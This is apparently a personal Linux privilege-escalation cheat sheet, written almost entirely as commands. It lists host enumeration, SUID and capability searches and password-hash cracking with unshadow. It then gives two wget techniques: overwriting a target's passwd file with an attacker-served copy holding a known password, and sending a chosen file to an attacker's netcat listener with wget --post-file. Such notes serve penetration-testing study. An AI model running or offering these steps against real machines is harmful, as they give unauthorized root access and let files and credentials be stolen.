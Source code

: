 # Linux Privesc

```
hostname

uname -a

/proc/version

/etc/issue

ps axjf

ps aux

env

sudo -l

id

/etc/passwd

history

ifconfig

ip route

netstat -ano

netstat -tulpn



```



unshadow passwd.txt shadow.txt > passwords.txt





```  
find / -type f -perm -04000 -ls 2>/dev/null


find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null
```

```
getcap -r / 2>/dev/null

```



https://gtfobins.github.io/
https://lolbas-project.github.io/
https://www.exploit-db.com/

https://github.com/SolomonSklash/htbenum


## WGET 1 

### Attacker

```
openssl passwd -1 -salt salt pass123
```

localy add to the an example passwd file and make it available on http

```
python3 -m http.server
```

### Target
```
wget -O passwd http://192.168.1.108:8000/passwd
```

login or su to that user with the password 'pass123'

## WGET 2

### Attacker

open netcat to allow the target to push the file

```
nc -lvnp 1234
```

### Target

```
URL=attacker_ip:1234
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

